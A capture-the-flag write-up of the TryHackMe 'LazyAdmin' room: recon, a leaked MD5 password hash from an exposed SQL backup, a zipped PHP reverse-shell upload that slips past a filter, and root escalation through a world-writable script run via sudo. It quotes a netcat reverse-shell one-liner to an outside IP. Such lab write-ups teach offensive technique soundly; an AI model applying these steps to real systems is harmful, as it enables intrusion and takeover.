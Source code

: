 # LazyAdmin

```
export IP=10.10.120.19
```

## Task 1

1. What is the user flag?

  Basic recon to see what is open. Looks like we just have a webpage and SSH:

  ```bash
  jeffrowell@kali:~/Documents/TryHackMe/LazyAdmin$ nmap -sC -sV -Pn -n -oN nmap/initial $IP
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-21 22:10 MDT
  Nmap scan report for 10.10.120.19
  Host is up (0.14s latency).
  Not shown: 998 closed ports
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
  |   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
  |_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  |_http-title: Apache2 Ubuntu Default Page: It works
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 38.30 seconds
  ```

  Seeing what is open on the webpage, we first find that there is a `/content` directory:

  ```bash
  jeffrowell@kali:~/Documents/TryHackMe/LazyAdmin$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,js
  ===============================================================
  Gobuster v3.0.1
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
  ===============================================================
  [+] Url:            http://10.10.120.19
  [+] Threads:        10
  [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  [+] Status codes:   200,204,301,302,307,401,403
  [+] User Agent:     gobuster/3.0.1
  [+] Extensions:     html,js,php,txt
  [+] Timeout:        10s
  ===============================================================
  2020/05/21 22:10:32 Starting gobuster
  ===============================================================
  /index.html (Status: 200)
  /content (Status: 301)
  ```

  Now running gobuster on the `/content` directory, we find even more directories to explore:

  ```bash
  jeffrowell@kali:~/Documents/TryHackMe/LazyAdmin$ gobuster dir -u http://$IP/content/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,js
  ===============================================================
  Gobuster v3.0.1
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
  ===============================================================
  [+] Url:            http://10.10.120.19/content/
  [+] Threads:        10
  [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  [+] Status codes:   200,204,301,302,307,401,403
  [+] User Agent:     gobuster/3.0.1
  [+] Extensions:     php,txt,html,js
  [+] Timeout:        10s
  ===============================================================
  2020/05/21 22:40:43 Starting gobuster
  ===============================================================
  /index.php (Status: 200)
  /images (Status: 301)
  /license.txt (Status: 200)
  /js (Status: 301)
  /changelog.txt (Status: 200)
  /inc (Status: 301)
  /as (Status: 301)
  /_themes (Status: 301)
  /attachment (Status: 301)
  ```

  In the `/content/inc/` dirctory is another directory with MySQL backups that we can access and download. Downloading the file and looking through it, we find the MD5 hash of the manager:
  MySQL backup:
  ```
  \\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
  ```

  Cool, so we have a password but nowhere to use it yet. Continuing to explore the findings from gobuster, the `/content/as` endpoint prompts for a username and password, where we log in as manager.

  We can upload a PHP reverse shell in the `media center` section of the web app. After trying to upload the PHP file standalone seems to fail, but there is an option to upload as a zip file and have the website unzip upon upload:

  ![loaded_zip](https://user-images.githubusercontent.com/32188816/82636987-12863480-9bc1-11ea-8600-565c95cd6e3f.png)

  Ziping the file then uploading seems to bypass the WAF, and the website renamed our PHP file with a hash:

  ![uploaded_unzipped_revshell](https://user-images.githubusercontent.com/32188816/82636992-144ff800-9bc1-11ea-9764-2206ac8a9c3a.png)

  Setting up our listener catches the shell, and we find the user flag in `/home/itguy/user.txt`:

  ```bash
  $ cat /home/itguy/user.txt
  THM{<REDACTED>}
  ```

2. What is the root flag?

  No onto the root flag. First let us check to see what commands we can run with elevated privileges:

  ```bash
  $ sudo -l
  Matching Defaults entries for www-data on THM-Chal:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User www-data may run the following commands on THM-Chal:
      (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
  ```

  Lets check out exactly what this perl file does:

  ```bash
  $ cat /home/itguy/backup.pl
  #!/usr/bin/perl

  system("sh", "/etc/copy.sh");
  ```

  Simple enough, it just spawns a shell and executes the `/etc/copy.sh` script. So what does the `/etc/copy.sh` script do?

  ```bash
  $ cat /etc/copy.sh
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
  $ ls -alh /etc/copy.sh
  -rw-r--rwx 1 root root 81 May 22 08:49 /etc/copy.sh
  ```

  So we have write access to `/etc/copy.sh` so we can blank that file and put our payload in there to checkout root's home directory and get the root flag:

  ```bash
  $ > /etc/copy.sh
  $ echo 'ls /root' >> /etc/copy.sh
  $ cat /etc/copy.sh
  ls /root
  $ sudo /usr/bin/perl /home/itguy/backup.pl
  root.txt
  $ > /etc/copy.sh
  $ echo "cat /root/root.txt" >> /etc/copy.sh
  $ sudo /usr/bin/perl /home/itguy/backup.pl
  THM{<REDACTED>}
  ```
